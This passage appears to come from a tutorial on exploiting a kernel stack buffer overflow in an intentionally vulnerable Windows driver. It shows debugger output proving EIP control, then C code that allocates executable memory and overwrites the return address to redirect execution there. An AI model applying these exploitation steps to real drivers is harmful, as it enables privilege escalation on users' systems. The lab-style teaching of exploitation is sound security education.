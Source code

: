 
**TIP**  
Remember to update the size of the HeapAlloc and the InputBuffer size parameter 
in DeviceIoControl because they don't need to be 2100 (0x834) as we know the 
real size of the buffer required. 

---

<br>
If you rerun the exploit and check EIP you should see EIP hold the value 
0x42424242. If not I would verify again that you used the same generator from 
pwntools for the creation of the pattern and finding the offset of the value.  
<br>
```
[+] UserBuffer: 0x000D8D30
[+] UserBuffer Size: 0x824
[+] KernelBuffer: 0x9A9032B4
[+] KernelBuffer Size: 0x800
[+] Triggering Buffer Overflow in Stack
Access violation - code c0000005 (!!! second chance !!!)
42424242 ??              ???
2: kd> r
eax=00000000 ebx=863b8f98 ecx=6118cf10 edx=00000000 esi=826d1087 edi=863b8f28
eip=42424242 esp=9a903ae0 ebp=41414141 iopl=0         nv up ei ng nz ac po nc
cs=0008  ss=0010  ds=0023  es=0023  fs=0030  gs=0000             efl=00010292
```
<br>
### Creating and Returning to Our Shellcode Buffer
<br>
Great now we have verified we can reliably control the instruction pointer lets 
create some executable user mode memory which will hold our shellcode and is 
where we will make `TriggerBufferOverflowStack` return to. I'm going to pick a 
size of 0x300 for now, we can increase/decrease it later as we need. I also am 
going to fill it with `0xCC` bytes which is the opcode for `INT 3`  or 
interrupt 3 which is a debugger interrupt of sorts and will cause any attached 
debuggers to break when this opcode is executed which will be helpful to verify 
that we have redirected code execution to this buffer:  
<br>
```c
LPVOID Shellcode = VirtualAlloc(
    NULL,
    0x300,
    MEM_COMMIT | MEM_RESERVE,
    PAGE_EXECUTE_READWRITE
);
memset(Shellcode, 0xCC, 0x300);
```
<br>
We now need to update the input buffer used in the overflow and place the 
address of our shellcode buffer in the position of the input buffer that will 
overwrite the return address of `TriggerBufferOverflowStack` when the 
`RtlCopyMemory` in the kernel is called.  
<br>
```c
memset(InBuffer, 0x41, 0x820);
*(DWORD*)(((PCHAR)InBuffer) + 0x820) = (DWORD)Shellcode;
```
<br>
Now after we recompile and run the exploit we should see that the debugger 
breaks when executing a `Int 3` instruction which is the start of our buffer. 
You could verify this by printing the address of the shellcode buffer in the 
exploit and comparing where the execution broke in the debugger, or a less 
definitive but probably reliable enough way is to just print 0x300 bytes 
starting at wherever EIP is when the debugger broke and verify that there is 
0x300 `0xCC` bytes which is our shellcode buffer.  